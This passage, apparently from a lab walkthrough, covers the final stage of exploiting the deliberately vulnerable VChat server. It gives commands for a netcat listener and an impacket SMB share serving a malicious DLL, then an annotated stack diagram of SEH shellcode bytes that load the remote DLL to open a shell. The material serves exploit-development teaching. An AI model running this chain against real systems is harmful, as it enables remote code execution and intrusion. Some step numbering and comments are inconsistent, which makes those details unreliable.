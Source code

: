 
With the second stage prepped and exposed on our network, we can perform the final exploitation.
1. Start a local [netcat](https://linux.die.net/man/1/nc) listener on our Kali machine for port 8080.

	```
	$ nc -l -v -p 8080
	```
	* `nc`: The netcat command.
	* `-l`: Set netcat to listen for connections.
	* `v`: Verbose output.
	* `p`: Set to listen on a port, in this case, port 8080.

4. If the SMB share has not been started, navigate to where your malicious DLL is located and start it.
	```
	$ sudo impacket-smbserver -smb2support ABCD .
	```
	* `sudo`: This command and operation requires root privileges to bind to the well-known SMB port 445.
	* [`impacket-smbserver`](https://www.kali.org/tools/impacket-scripts/#impacket-smbserver):  This is the command the launches a SMB server and add a share as specified.
	* `smb2support`: Enable SMB2 Support.
	* `A`: Name of the current Share. This is chosen to be short as we would complicate the shellcode generation otherwise.
	* `.`: This is the current directory we are in, we can specify a path to share a specific directory.

5. Run the [exploit13a-DLL.py](./SourceCode/exploit13-DLL.py) program, and open the terminal you have the netcat listener on!


**Note**:
The diagram below shows the stack when the malcious string is injected into vchat.exe. The SEH gadget runs the two jump short
instructions and jumps above to the instructions that create a jump instruction. This jump instruction is to jump back and run JUMP_ENCODE, which jumps to the start of our buffer, where the first stage code FIRST_STAGE is located. FIRST_STAGE will load the remote malicious dll and performs the attack.

The hard part to understand is we use instructions to create the jump instructions.

```
|                                                            | -③---------------------------------------
|------------------------------------------------------------|                                         |
|    b'\x50'                                                 | # PUSH EAX                              |
|    b'\x05\x76\x40\x48\x48'                                 | # ADD EAX,48484076                      |
|    b'\x05\x75\x40\x48\x48'                                 | # ADD EAX,48484075                      |
|    b'\x25\x35\x32\x31\x2a'                                 | # AND EAX,0x2A313235                    |
|    b'\x25\x4a\x4d\x4e\x55'                                 | # AND EAX,0x554E4D4A                    |
|    b'\x5c'                                                 | # POP ESP                               |
|    b'\x50'                                                 | # PUSH EAX                              |
|    b'\x66\x05\x64\x12'                                     | # ADD AX,0x097F                         |
|    b'\x58'                                                 | # POP EAX                               |
|    b'\x54'                                                 | # PUSH ESP                              |
```